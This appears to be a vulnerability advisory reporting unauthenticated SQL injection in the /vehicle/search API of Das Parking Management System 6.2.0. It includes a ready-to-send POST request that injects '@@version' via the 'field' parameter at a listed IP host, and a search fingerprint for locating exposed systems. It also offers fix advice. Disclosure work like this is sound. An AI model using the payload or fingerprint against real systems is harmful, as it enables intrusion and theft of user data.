




[PRODUCT]

Das Parking Management System6.2.0



Vendor website : http://221.7.133.9:18011/#/login


[TYPE]

SQL INJECTION


[DESCRIPTION]

A SQL INJECTION  vulnerability exists in the Das Parking Management System.The system's API '/vehicle/search ' is vulnerable to unauthorized access ,allowing unauthenticated users to exploit certain interfaces and retrieve  sensitive user data  posing a critical security risk. The manipulation of  the argument 'value' leads to sql injection.


[Fingerprint]

Hunter :  web.title=="DasPmsWeb" and web.body="assets/images/loginLogo.png"




[DETAILS]

Request package is as follows

```
POST /vehicle/search HTTP/1.1
Host:112.112.62.28:8011
Content-Length: 206
Accept-Language: zh-CN 
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"pagingModel":{"pageSize":15,"pageIndex":1},"sortModel":{"field":"V.VEHICLESTATE + @@version","orderType":0},"filterModel":{"plateNo":"","ownerName":"","VehicleTypeCode":""}}
```

The parameter 'field' in the request body is vulnerable to SQL injection.



sqlmap result:




[Mitigation & Fix Recommendations]

Implement parameterized queries (precompiled), use stored procedures (only if they are securely coded), and apply input validation and filtering.

